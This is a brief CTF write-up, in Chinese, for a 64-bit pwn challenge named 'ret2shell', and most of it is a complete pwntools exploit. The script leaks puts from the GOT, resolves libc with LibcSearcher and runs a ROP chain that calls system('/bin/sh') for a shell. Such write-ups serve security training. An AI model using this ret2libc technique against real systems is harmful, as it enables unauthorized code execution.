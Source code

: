 # ret2shell 

From 0rays.

## 文件分析

下载`ret2shell`, NX off, PIE off, RELRO off  
ghidra分析为64位程序

## 逆向

> .bss不可执行，且栈溢出的空间不足以放下shellcode，转而考虑**ret2libc**

打完moectf后记：shellcode放的下，但是不太好在栈上执行shellcode  
ret2libc过程参考moectf2023和cbctf的

## EXPLOIT

```python
from pwn import *
import LibcSearcher

sh = remote(???, 10032)
elf = ELF('ret2shell')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x400703
mainAddr = elf.symbols['main']

# payload 1
sh.sendline(b'x')
sh.sendlineafter(b':', b'0'*0x18 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'\n') # skip
data = sh.recv()
putsGotAddr = u64(data[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')
retAddr = 0x400696

# payload 2
sh.sendline(b'x')
sh.sendlineafter(b':', b'0'*0x18 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.

